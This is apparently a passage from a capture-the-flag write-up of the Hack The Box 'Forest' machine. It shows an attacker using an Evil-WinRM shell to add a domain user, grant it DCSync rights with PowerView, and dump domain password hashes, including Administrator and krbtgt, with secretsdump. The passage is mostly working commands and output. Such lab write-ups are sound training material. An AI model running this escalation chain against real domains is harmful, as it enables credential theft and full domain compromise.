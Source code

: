 We see two important information:

1. svc-alfresco can create domaisn users
2. svc-alfresco has WriterDacl. 

Lest exploit both them:

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user dumbx90 dumbwitheffort /add
The command completed successfully.
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" dumbx90 /add
The command completed successfully.
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net localgroup "Remote Management Users" dumbx90 /add
The command completed successfully.
```



Now Transfer the **Powerview.ps1** script to target machine:

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload PowerView.ps1
Info: Uploading PowerView.ps1 to C:\Users\svc-alfresco\Documents\PowerView.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user dumbx90 dumbwitheffort /add /domain
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" dumbx90 /add
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net localgroup "Remote Management Users" dumbx90 /add
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $pass = convertto-securestring 'dumbwitheffort' -asplain -force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $cred = New-Object System.Management.Automation.PSCredential("htb\dumbx90", $pass)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectACL -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity dumbx90 -Rights DCSync

```

Now with the create user, lets dump the hashes of domain controller:

```bash
dumbland () hgfs/hackthebox/forest :: /home/dumb/tools/impacket/examples/secretsdump.py htb.local/dumbx90:dumbwitheffort@10.10.10.161
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```